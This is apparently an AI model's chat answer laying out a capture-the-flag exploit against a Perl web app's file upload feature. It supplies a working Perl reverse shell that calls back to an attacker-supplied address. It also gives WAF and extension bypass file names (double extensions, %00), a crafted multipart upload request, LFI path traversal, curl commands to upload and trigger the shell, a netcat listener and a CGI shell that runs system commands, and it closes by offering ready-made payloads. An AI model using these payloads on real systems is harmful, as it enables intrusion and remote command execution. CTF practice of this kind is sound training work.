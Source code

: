To exploit the **file upload vulnerability** in the provided CTF, particularly targeting a **Perl-based web app with a WAF in place**, here’s a clear **step-by-step PoC** for bypassing security mechanisms and achieving **RCE or LFI to get the flag**.

---

### 🎯 Objective:

Use the file upload functionality to:

1. Upload a shell.
2. Trigger it to run commands like `grep -r "P3RL_B3AST" /home /opt /var /tmp 2>/dev/null`.
3. Retrieve the flag using either the filename or the content (`P3RL_B3AST`).

---

## 🔧 1. Prepare the Malicious File (Perl-based Web Shell)

Since the server is **Perl-based**, and PHP may not work, prepare a **Perl shell** or use a **valid extension bypass** with a file that will get interpreted and executed (if misconfigured).

If you’re not sure which extensions are allowed, try:

```
shell.pl
shell.txt
shell.pl;.jpg
shell.pl%00.jpg
```

#### Example Perl Reverse Shell (`rev.pl`):

```perl
#!/usr/bin/perl
use Socket;
$i="YOUR_IP";$p=YOUR_PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");
open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

### 🎯 Payload tip for RCE:

If Perl isn't executed, try uploading **bash** or **sh** shell wrapped in `.txt` or `.jpg` and then trigger via **LFI**.

---

## 📤 2. Modify Burp Request for Upload

Send the request to Burp Repeater. Modify:

- **Content-Type** to `multipart/form-data`
- **Filename** to bypass extension filters
- **Content-Disposition** correctly

**Example modified POST request**:

```http
POST /upload HTTP/1.1
Host: hacksmith.webhop.me:5565
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
Content-Length: ...

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="rev.pl%00.jpg"
Content-Type: application/octet-stream

[Insert shell content here]

------WebKitFormBoundary--
```

🛡 **WAF Bypass Tips**:

- Use **double extensions**: `rev.pl.jpg`
- Null byte `%00` to terminate extension
- Obfuscate using content-type changes

---

## 🔎 3. Discover the Upload Path

Try common paths:

- `/uploads/rev.pl`
- `/upload/rev.pl`
- `/files/rev.pl`
- `/images/rev.pl`
- `/rev.pl`

Use **Burp Intruder** or `ffuf` to fuzz upload directory:

```bash
ffuf -u http://hacksmith.webhop.me:5565/FUZZ -w paths.txt
```

---

## 🖥 4. Trigger the Shell

If shell is working and you get a reverse shell:

```bash
grep -r "P3RL_B3AST" /home /opt /tmp /var 2>/dev/null
```

Or, embed this in the shell directly if it’s one-shot execution.

---

## 💣 5. If LFI Exists

If you discover LFI:

- Try accessing the uploaded file path.
- If `/etc/passwd` works, include your uploaded shell:

```bash
http://hacksmith.webhop.me:5565/index.pl?page=../../../../uploads/rev.pl
```

If you don’t have RCE, use LFI to include `/proc/self/environ`, `access.log`, etc.

---

## ✅ Final Fully-Automated PoC (without Python, using curl)

1. Upload shell:

```bash
curl -X POST http://hacksmith.webhop.me:5565/upload \
 -F "file=@rev.pl;filename=rev.pl%00.jpg" \
 -H "Content-Type: multipart/form-data"
```

2. Trigger it (replace path accordingly):

```bash
curl http://hacksmith.webhop.me:5565/uploads/rev.pl
```

Or use:

```bash
curl http://hacksmith.webhop.me:5565/index.pl?page=../../../../uploads/rev.pl
```

3. Set up your netcat listener:

```bash
nc -lvnp YOUR_PORT
```

---

## 🏁 BONUS: Direct Shell that Greps Flag

If you're uploading a shell, you can write this inside the payload:

```perl
#!/usr/bin/perl
print "Content-type: text/html\n\n";
print `grep -r "P3RL_B3AST" /home /var /opt /tmp 2>/dev/null`;
```

Name it `grep.pl`, upload and then access:

```bash
http://hacksmith.webhop.me:5565/uploads/grep.pl
```

---

## 🏆 Flag Info:

- **Flag ID**: `20c08b01-b30a-4580-95ce-12506c1283ad`
- **Flag Content**: `P3RL_B3AST`

---

If you share upload response + source page showing form inputs or directories, I can fine-tune the exploit further. Want me to generate a `grep.pl` and a ready-to-upload file for you?